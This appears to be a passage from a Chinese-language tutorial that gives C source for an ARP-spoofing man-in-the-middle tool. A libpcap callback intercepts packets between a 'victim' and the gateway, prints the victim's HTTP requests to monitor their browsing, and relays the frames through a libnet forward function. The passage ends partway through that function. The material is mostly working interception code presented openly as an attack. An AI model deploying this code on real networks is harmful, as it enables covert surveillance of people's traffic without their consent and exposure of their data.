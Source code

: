 抓包之后的回调函数，分析数据包并判断下一次操作：

```c
void getPacket(u_char *arg, const struct pcap_pkthdr *hp, const u_char *packet) {

  /* get args */
  MITM_info MITM_arg = *(MITM_info *)arg;
  int Times = 1;
  u_short type = EPT_IPv4;
  char *dev = MITM_arg.dev;
  u_char *victim_mac = MITM_arg.TARGET_MAC;
  u_char *gateway_mac = MITM_arg.GATEWAY_MAC;
  u_char *attacker_mac = MITM_arg.ATTACKER_MAC;
  u_char *victim_ip = MITM_arg.TARGET_IP;
  u_char *gateway_ip = MITM_arg.GATEWAY_IP;

  /* get packet information */
  ethernet_header *pEther = (ethernet_header *)packet;
  ip_header *pIpv4 = (ip_header *)(packet + 14);
  tcp_header *pTcp = (tcp_header *)(packet + 34);
  char *data = (char *)(packet + 54);

  /* get packet form victim */
  if (!memcmp(pEther->SRC_mac, victim_mac, 6)) {
    char *p = strstr(data, "HTTP");
    if (p != NULL) printf("%s\n", data);
    forward(dev, type, gateway_mac, attacker_mac, packet + 14, hp->len - 14, Times);
  }
  else if (!memcmp(pEther->SRC_mac, gateway_mac, 6)) {
    forward(dev, type, victim_mac, attacker_mac, packet + 14, hp->len - 14, Times);
  }
}
```

这里我们打印了目标主机的HTTP请求来监控他上网。

之后是利用libnet再构建一个链路层数据包并发送回去：

```c
int forward(char *dev, u_short pro_type, u_char *DST, u_char *SRC, const u_char *payload, int len, int Times) {

  /* definations */
  libnet_t *net_t = NULL;
  char errbuf[LIBNET_ERRBUF_SIZE];
  libnet_ptag_t p_tag;
  int res;

  /* start libnet */
  net_t = libnet_init(LIBNET_LINK_ADV, dev, errbuf);
  if (net_t == NULL) {
    printf("libnet start error\n");
    return 1;
  }

  /* build ethernet */
  p_tag = libnet_build_ethernet(DST, SRC, pro_type, payload, len, net_t, 0);
  if (p_tag == -1) {
    printf("libnet build error\n");
    libnet_destroy(net_t);
    return 1;
  }

  /* send packet */
  for (int i = 0; i < Times; i++) {
    res = libnet_write(net_t);
```